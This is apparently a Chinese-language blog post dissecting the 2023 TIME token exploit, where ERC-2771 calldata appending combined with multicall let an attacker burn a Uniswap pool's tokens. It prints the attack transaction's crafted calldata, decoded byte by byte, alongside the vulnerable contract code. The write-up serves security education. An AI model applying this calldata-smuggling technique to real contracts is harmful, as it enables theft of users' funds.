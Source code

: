 ```yaml
---
title: 由EIP-2771引发的血案 - TIME token 安全案例详解
date: 2024-05-31 18:57:05
tags: DeFi
mathjax: true
categories: DeFi
description: 使用 abi.encode 在多个项目中传递信息是很危险的行为
---
```


## EIP-2771简述

不知道大家在使用 openzepplin 轻松构建自己的 Dapp 时，有没有看到这样的代码：

```javascript
 function _msgSender() internal view virtual returns (address) {
        return msg.sender;
 }
```



初看你可能会觉得莫名其妙，msg sender 还能是什么东西？ 这东西有什么重写的必要吗？这就小看了 ethdevs 的脑洞了，在很多情况下，如果一个 Dapp 选择使用重写过的 _msgSender 做身份验证，会有很多便利和玩法，比如 [EIP-2771](https://eips.ethereum.org/EIPS/eip-2771) 就提供了一个思路，简单说来，就是为了应付某些账户没有 gas 确需要发交易的情况而生的，基本原理如下：



1. 用户 `user` 会把需要执行的**已签名交易信息**发送给 `Gas Relayer` (链下)
2.  `Gas Relayer` 调用一个叫做 `Trusted Forwarder` 的合约，合约内验证签名真伪
3.  `Trusted Forwarder`合约调用目标合约





而 EIP-2771 就会在这个过程里重新规定 msg sender 的定义。

首先在 `Trusted Forwarder `处理调用信息时，会将 `user` 的地址添加到下一次调用的 `calldata` 的最后边，而目标合约使用了被 EIP-2771 重写的 `_msgSender` 方法，若发送方是`Trusted Forwarder `，则解析出最后 20 个 bytes 作为 msg sender, 代码分别如下：

```javascript
//Trusted Forwarder     
        (bool success, bytes memory result) = req.to.call{ gas: req.gas, value: req.value }(
            abi.encodePacked(req.data, req.from)
        );
```



```javascript
// target contract
function _msgSender() internal view returns (address payable signer) {
        signer = msg.sender;
        if (msg.data.length>=20 && isTrustedForwarder(signer)) {
            assembly {
                signer := shr(96,calldataload(sub(calldatasize(),20)))
            }
        }    
    }
```

 按理来说，这样解析出来的 msgSender 就是签名的 `user` ，并没有什么不妥，但是强行读取 calldata 的动作十分危险，在 2023 年 12 月 6 日，TIME 由此出现安全事故，损失高达 18万美元。

交易链接:

https://etherscan.io/tx/0xecdd111a60debfadc6533de30fb7f55dc5ceed01dfadd30e4a7ebdb416d2f6b6



## 漏洞分析

我们先看其调用栈：

![](tracker.png '交易流程')

可以梳理其攻击手法：

1.先是在 uniswap 上兑换了一笔 TIME token, 

2.之后将 uniswap 的 WETH/TIME 池子中的 TIME burn 掉，得到了一个很高的 TIME 价格，

3.最后将那笔 TIME token 卖出，获得大量 WETH 完成攻击。

其中最关键的一步，“将池子的 TIME burn 掉” 是怎么做到的呢？我们主要分析第2步。

首先，用户调用了`Trusted Forwarder` 合约的 `execute` 方法()，其参数为：

```json
{
  "msg.sender":"0x6980a47bee930a4584b09ee79ebe46484fbdbdd0",
  "func":"execute",
  "args":{
    "req"		[
    {
    "from":"0xa16a5f37774309710711a8b4e83b068306b21724",
    "to":"0x4b0e9a7da8bab813efae92a6651019b8bd6c0a29",
    "value":"0",
    "gas":"5000000",
    "nonce":"0", 	"data":"0xac9650d8000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000010000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000003842966c680000000000000000000000000000000000000000c9112ec16d958e8da8180000760dc1e043d99394a10605b2fa08f123d60faf840000000000000000"
  }
  ],
"signature":"0x9194983a3dbfb5779c09c95f5d830d8435d9ce88b383752c3dfb8a1b84b8c9f511b7c750f1334e2f26ca9be32c2d070a4a023edf745b02468d6cba9a15a494c61b"
},
"return":{ 
  "out0":true,
  "out1":"0x0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000000"
         }
}
```

方法代码如下：

```javascript
//Trusted Forwarder     
function execute(ForwardRequest calldata req, bytes calldata signature)
        public
        payable
        returns (bool, bytes memory)
    {
        require(verify(req, signature), "MinimalForwarder: signature does not match request");
        _nonces[req.from] = req.nonce + 1;

        // solhint-disable-next-line avoid-low-level-calls
        (bool success, bytes memory result) = req.to.call{ gas: req.gas, value: req.value }(
            abi.encodePacked(req.data, req.from)
        );

        if (!success) {
            // Next 5 lines from https://ethereum.stackexchange.com/a/83577
            if (result.length < 68) revert("Transaction reverted silently");
            assembly {
                result := add(result, 0x04)
            }
            revert(abi.decode(result, (string)));
        }
        // Check gas: https://ronan.eth.link/blog/ethereum-gas-dangers/
        assert(gasleft() > req.gas / 63);
        return (success, result);
    }
```

`req.to` 也就是目标函数是 TIME 合约

解析 `req.data`:

```
0xac9650d8
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000001
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000038
42966c68
0000000000000000000000000000000000000000c9112ec16d958e8da8180000
760dc1e043d99394a10605b2fa08f123d60faf840000000000000000
```

通过函数签名 `0xac9650d8` 可以锁定其目标是 TIME 合约的 `multicall` 方法。

```javascript
    function multicall(bytes[] calldata data) external virtual returns (bytes[] memory results) {
        results = new bytes[](data.length);
        for (uint256 i = 0; i < data.length; i++) {
            results[i] = _functionDelegateCall(address(this), data[i]);
        }
        return results;
    }
```

但是 `req.data` 并不是 `multicall` 接收到的 `calldata` ，因为我们会在其后边加上 `req.from` 以确认 msg sender，那么 `multicall` 收到的参数则是：

```
0xac9650d8
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000001
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000038
42966c68
0000000000000000000000000000000000000000c9112ec16d958e8da8180000
760dc1e043d99394a10605b2fa08f123d60faf840000000000000000a16a5f37774309710711a8b4e83b068306b21724
```

`multicall`的参数是 `bytes[] calldata data` ,那么其每行的意思如下

```
0xac9650d8 //multicall 的函数选择器
0000000000000000000000000000000000000000000000000000000000000020 //第一个参数也就是 data 初始位置偏移
0000000000000000000000000000000000000000000000000000000000000001 //data数组的长度
0000000000000000000000000000000000000000000000000000000000000020 //data[0]的初始位置偏移
0000000000000000000000000000000000000000000000000000000000000038 //data[0]的长度
42966c68
0000000000000000000000000000000000000000c9112ec16d958e8da8180000
760dc1e043d99394a10605b2fa08f123d60faf840000000000000000a16a5f37774309710711a8b4e83b068306b21724
```

想必大家可能隐约意识到其问题所在了，我们可以通过设定 `data[0]` 的长度让 `multicall` 忽视掉某些信息！实际上 `multicall` 收到的 `data[0]` 是 `0x42966c680000000000000000000000000000000000000000c9112ec16d958e8da8180000760dc1e043d99394a10605b2fa08f123d60faf84` ，而 `data` 也只有一个元素而已！



下一步`multicall` 使用调用`0x42966c680000000000000000000000000000000000000000c9112ec16d958e8da8180000760dc1e043d99394a10605b2fa08f123d60faf84`其自身， 匹配到了`burn`函数：



```javascript
    function burn(uint256 amount) public virtual {
        _burn(_msgSender(), amount);
    }
```

那么我们再次分析这个输入 `calldata`:

```
0x42966c68 //burn 的函数选择器
0000000000000000000000000000000000000000c9112ec16d958e8da8180000 //burn 的第一个参数 amount
760dc1e043d99394a10605b2fa08f123d60faf84
```

以及其`_msgSender`:

```javascript
    function _msgSender()
        internal
        view
        virtual
        override(ContextUpgradeable, ERC2771ContextUpgradeable)
        returns (address sender)
    {
        return ERC2771ContextUpgradeable._msgSender();
    }
```

也就是这个 `ERC2771ContextUpgradeable` ，把 `calldata` 的最后20字节 `0x760dc1e043d99394a10605b2fa08f123d60faf84` 返回了回去，作为 burn token 的账户，而这个 `0x760dc1e043d99394a10605b2fa08f123d60faf84` 正是 uniswap WETH/TIME 的资金池。这时，该池子里的 TIME 价格变得非常高，攻击者使用刚刚买入的 TIME 换走池子里剩下的 WETH ,完成攻击。



## 结语

这个案例的问题在于 `multicall` 并没有识别 `Trusted Forwarder` ，导致损失了 `req.from` 的信息，但是归根结底，这是过于相信拼接 `calldata` 的表达能力了，solidity 只会根据 abi 解析数据，任何拼接的参数都有一定程度的风险，我们尽量不要在跨项目的交互中过于依赖这种方法，有一个 puzzle 同样运用了该方法，留给诸君练习使用:  [abi-smuggling](https://www.damnvulnerabledefi.xyz/challenges/abi-smuggling/ ) 。